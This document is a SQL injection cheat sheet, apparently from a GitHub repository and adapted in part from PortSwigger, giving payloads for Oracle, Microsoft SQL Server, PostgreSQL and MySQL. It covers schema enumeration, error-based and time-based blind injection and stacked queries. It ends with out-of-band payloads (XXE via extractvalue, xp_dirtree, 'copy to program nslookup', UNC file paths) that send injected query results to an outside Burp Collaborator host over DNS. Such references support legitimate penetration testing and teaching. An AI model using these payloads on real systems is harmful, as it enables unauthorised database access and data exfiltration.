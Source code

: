 # SQLi Cheatsheet

**NOTE: Some of the information here have been taken from:**

- [PortSwigger.net](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [MySQL Docs](https://dev.mysql.com/doc/refman/8.0/en/information-schema.html)

### String Concatenation:
- Oracle 	`'foo'||'bar'`
- Microsoft 	`'foo'+'bar'`
- PostgreSQL 	`'foo'||'bar'`
- MySQL
  - `'foo' 'bar'` [Note the space between the two strings]
  - `CONCAT('foo','bar')`
  - `CONCAT(col1,col2...)`

### Substring
**Remember: Index starts from 1**
- Oracle `SUBSTR('foobar', 4, 2)`
- Microsoft	`SUBSTRING('foobar', 4, 2)`
- PostgreSQL `SUBSTRING('foobar', 4, 2)`
- MySQL	`SUBSTRING('foobar', 4, 2)`

### Comment
- Oracle 	`--comment`
- Microsoft
  - `--comment`
  - `/*comment*/`
- PostgreSQL
  - `--comment`
  - `/*comment*/`
- MySQL
  - `#comment`
  - `-- comment` *[Note the space after the double dash]*
  - `/*comment*/`

### Database version
- Oracle
  - `SELECT banner FROM v$version`
  - `SELECT version FROM `v$instance
- Microsoft	`SELECT @@version`
- PostgreSQL `SELECT version()`
- MySQL	`SELECT @@version`

### Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

- Oracle
  - `SELECT * FROM all_tables`
  - `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
- Microsoft
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- PostgreSQL
  - `SELECT * FROM information_schema.tables`
  - `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
- MySQL
  **Information:**

    - '**information_schema**' is the database that contains all information about all the database, table, column, etc names.*

    - *'**information_schema.tables**' table contain useful columns that show which table belongs to which database (and vice-versa):*
    
        - table_schema
        (database name)
        - table_name
        - table_rows
        (number of rows of table)
    - *'**information_schema.columns**' contain useful columns that show which column belongs to which table (and vice-versa)*:

      - table_schema
      (database name)
      - table_name
      - column_name

  **Queries:**

  - `SELECT * FROM information_schema.tables`
  - SELECT * FROM `information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

### Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

- Oracle `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual`
- Microsoft `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
- PostgreSQL `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END`
- MySQL `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') `

### Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

- Oracle -	*Does not support batched queries.*
- Microsoft `QUERY-1-HERE; QUERY-2-HERE`
- PostgreSQL 	`QUERY-1-HERE; QUERY-2-HERE`
- MySQL - *Does not support batched queries.*

### Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

- Oracle 	`dbms_pipe.receive_message(('a'),10)`
- Microsoft `WAITFOR DELAY '0:0:10'`
- PostgreSQL `SELECT pg_sleep(10)`
- MySQL	`SELECT sleep(10)`

### Conditional time delays

You can test a single boolean condition and trigger a time delay if the condition is true.

- Oracle `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- Microsoft `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
- PostgreSQL `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
- MySQL	`SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`

### DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred. 

- **Oracle**
 	The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:
`SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`

  The following technique works on fully patched Oracle installations, but requires elevated privileges:
  `SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')`
- **Microsoft**
  `exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'`
- **PostgreSQL**
  `copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'`
- **MySQL**
  *The following techniques work on Windows only:*
    - `LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')`
    - `SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`

### DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data. 

- **Oracle**
` SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`

- **Microsoft**
`declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')`

- **PostgreSQL**
  ```
  create OR replace function f() returns void as $$
  declare c text;
  declare p text;
  begin
  SELECT into p (SELECT YOUR-QUERY-HERE);
  c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';
  execute c;
  END;
  $$ language plpgsql security definer;
  SELECT f();
  ```

- **MySQL**
  *The following technique works on Windows only:*
  `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`
